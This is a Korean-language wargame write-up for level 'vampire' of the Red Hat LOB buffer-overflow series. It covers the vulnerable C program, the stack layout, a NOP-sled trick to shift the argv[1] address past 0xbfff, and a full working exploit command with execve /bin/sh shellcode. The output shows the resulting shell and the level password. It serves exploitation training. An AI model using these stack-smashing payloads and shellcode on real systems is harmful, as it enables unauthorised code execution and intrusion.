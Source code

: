 ============================================================================================================
[redhat-lob] (9) vampire
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1] value"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[1] address"];
    }


|

Source Code
============================================================================================================


.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    main(int argc, char *argv[])
    {
        char buffer[40];

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
            printf("but it's not forever\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)  <- strcpy overflow
    argc    (4byte)  <- 0x00000002
    argv    (4byte)  <- argv 주소
    ----------------
    HIGH    
    ================

|

Buffer Overflow
============================================================================================================

Overflow condition 

- argv[1] value의 47번째 문자가 "\\xbf"이어야 함
- argv[1] value의 46번째 문자가 "\\xff"가 아니어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./vampire2 `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./vampire2 `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault



|

exploit
============================================================================================================

argv[1]의 주소값 변경
------------------------------------------------------------------------------------------------------------

argv[1]의 주소가 "\\xbf\\xff"로 시작하기 때문에 argv[1]에 nop를 100000만큼 삽입하여 주소값을 "\\xbf\\xfe"로 시작하도록 한다.

.. code-block:: console

    $ ./vampire2 `python -c 'print "a"*47+"\xbf"+"\x90"*100000'`
    buffer : 0xbffe7460
    argv[1]: 0xbffe74d8

    Segmentation fault

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*40
    SFP     (4byte)  <- "\x90"*4
    RET     (4byte)  <- argv[1] address
    argc    (4byte)  <- 0x00000002
    argv    (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- "\x90"*100000 + shellcode
    ----------------
    HIGH    
    ================

|

nop (44 byte) + argv[1] address + nop (100000 byte) + shellcode (25 byte)

.. code-block:: console

    $ ./vampire `python -c 'print "\x90"*44 + "\xd8\x74\xfe\xbf" + "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒

    bash$ whoami
    vampire
    bash$ my-pass
    euid = 509
    music world
